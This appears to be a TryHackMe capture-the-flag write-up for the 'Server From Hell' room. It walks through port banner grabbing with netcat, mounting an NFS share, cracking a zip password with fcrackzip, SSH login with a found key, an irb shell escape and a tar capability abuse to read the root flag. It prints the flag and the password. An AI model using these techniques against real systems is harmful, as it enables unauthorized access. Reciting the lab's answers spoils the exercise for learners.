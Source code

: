 # TryHackMe-Server From Hell

## NMAP

```
Not shown: 94 closed ports
PORT      STATE SERVICE               VERSION
1/tcp     open  tcpmux?
| fingerprint-strings: 
|   NULL: 
|_    550 12345 0000000000000000000000000000000000000000000000000000000
3/tcp     open  compressnet?
| fingerprint-strings: 
|   NULL: 
|_    550 12345 0000000000000000000000000000000000000000000000000000000
4/tcp     open  unknown
| fingerprint-strings: 
|   NULL: 
|_    550 12345 0000000000000000000000000000000000000000000000000000000
6/tcp     open  unknown
........

There were many ports open in this box so can't really show how many ports were there
```

Looking at the description of the room it says about starting from `1337` ,so

## PORT 1337

`nc IP:1337`

```
Welcome traveller, to the beginning of your journey
To begin, find the trollface
Legend says he's hiding in the first 100 ports
Try printing the banners from the ports

```
This is the message we get when we connect to port 1337

I made a simple script to go over 100 ports and connect to it to grab banner


```
i=1
while [ $i -ne 100 ]
do 
	nc 10.10.173.96 $i
	i=$(( $i + 1 ))
done

```
<img src="https://imgur.com/X2RBWne.png"/>


## PORT 12345

```
nc 10.10.173.96 12345
NFS shares are cool, especially when they are misconfigured
It's on the standard port, no need for another scan
```

## PORT 2049

The default port of `nfs` share is 2049 so lets see if there are any shares that we can mount on our local machine

<img src="https://imgur.com/ZsfnVwC.png"/>

Now let's mount that share

<img src="https://imgur.com/SDYKjPV.png"/>

We only find a `backup.zip`

<img src="https://imgur.com/VVLeFOp.png"/>

But it asks for a password

<img src="https://imgur.com/PdxqCba.png"/>

### Fcrackzip

Now lets use this to bruteforce archive's password

```
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip 


PASSWORD FOUND!!!!: pw == zxcvbnm
```
<img src="https://imgur.com/mqLJMVD.png"/>

But I can't get to extract the files becasue `read-only file system` , so I used GUI to view what was in these files

<img src="https://imgur.com/0aJE2Xt.png"/>

And I was able to grab the flag,hint and ssh private key.


Now `hint.txt` says

```
2500-4500
```

I tried to ssh into the box using `hades` private but ssh port was not on 22

<img src="https://imgur.com/PfSORcz.png"/>

From the results of the scan I searched for ssh with openssh client

<img src="https://imgur.com/mgG3s7s.png"/>

And was logged in :D

<img src="https://imgur.com/2j3o2wy.png"/>

```
 Welcome to hell. We hope you enjoy your stay!
 irb(main):001:0> puts 'hello'
hello
=> nil
irb(main):002:0> 

```

Now this `irb` is interactive ruby shell just like we get in python so in order to get a `/bin/bash` shell run 

```
exec '/bin/bash'
```

<img src="https://imgur.com/TagPPFG.png"/>

## Privilege Escalation

Now the room gives us a hint about `getcap` this command tells that which file or binary has capability to access almost anything on the system so run 

`getcap -r 2>/dev/null` (2>/dev/null ,here 2 just redirects Standard output error to null )


```
hades@hell:~$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/bin/tar = cap_dac_read_search+ep
```
Visiting `GTFOBINS`

https://gtfobins.github.io/gtfobins/tar/
```
hades@hell:~$ tar xf /root/root.txt -I '/bin/sh -c "cat 1>&2"'
thm{w0w_n1c3_3sc4l4t10n}
hades@hell:~$ 

```



